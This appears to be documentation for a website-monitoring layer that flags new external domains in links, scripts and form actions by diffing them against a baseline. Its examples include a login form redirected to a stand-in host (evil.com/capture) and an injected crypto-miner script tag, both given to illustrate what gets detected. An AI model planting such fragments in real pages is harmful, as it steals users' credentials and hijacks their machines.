

The **Link Audit Layer** parses all network references embedded in the HTML tree. Attackers often alter links to siphon traffic to phishing domains or inject unauthorized tracking pixels.

## Architecture

## Deep Dive Mechanism

This layer extracts and compares specific HTML attributes that dictate network behavior. It does not execute the links; it statically analyzes the intent of the HTML references.

<Steps>
  <Step title="Extraction">
    The layer searches the DOM for specific tags that initiate network requests:
    - `<a href="...">`: Hyperlinks pointing outward.
    - `<link href="...">`: External stylesheets and fonts.
    - `<script src="...">`: External JavaScript files.
    - `<form action="...">`: Data submission endpoints.
    - ``: Image sources.
  </Step>
  <Step title="Normalization">
    Relative URLs (like `/api/login`) are normalized against the site's base URL. The parser extracts the Fully-Qualified Domain Name (FQDN) for every link on the page (e.g., `https://evil.com/capture` becomes `evil.com`).
  </Step>
  <Step title="Set Difference Evaluation">
    The engine constructs a Python `set()` of the baseline's known domains and a `set()` of the current scan's domains. It then subtracts the baseline set from the current set (`current_domains - baseline_domains`).
  </Step>
  <Step title="Scoring">
    The introduction of *entirely new domains* drastically spikes the risk score. The score scales dynamically based on the tag type. A new domain in a `<script>` or `<form>` tag is considered critically dangerous (immediate 1.0 contribution), whereas a new domain in an `<a>` tag (a hyperlink) is treated as suspicious but potentially benign.
  </Step>
</Steps>

## Traffic Hijacking Examples

<CardGroup cols={2}>
  <Card title="Credential Harvesting" icon="mask">
    An attacker modifies `<form action="/login">` to point to `https://evil.com/capture`. Layer 3 instantly identifies `evil.com` as an unauthorized FQDN in a form action and flags the scan.
  </Card>
  <Card title="Malvertising" icon="rectangle-ad">
    An attacker injects `<script src="https://crypto-miner.io/miner.js">`. Even if the script tag itself is obfuscated, the FQDN extraction isolates `crypto-miner.io` and raises an alarm.
  </Card>
</CardGroup>

## False Positive Suppression

Just like Layer 2, Layer 3 receives the **Suppression-Filtered** copy of the HTML. If an operator applies a CSS selector suppression rule to a dynamic sidebar widget that loads external tracking pixels, those links are stripped from the DOM before Layer 3 executes.

<Info>
  **Internal Restructuring**: Removing links or changing URLs while staying within previously trusted domains results in a `0.0` score from this layer. Changing an image from `cdn.yoursite.com/img1.png` to `cdn.yoursite.com/img2.png` is ignored, preventing false positives during legitimate content updates.
</Info>
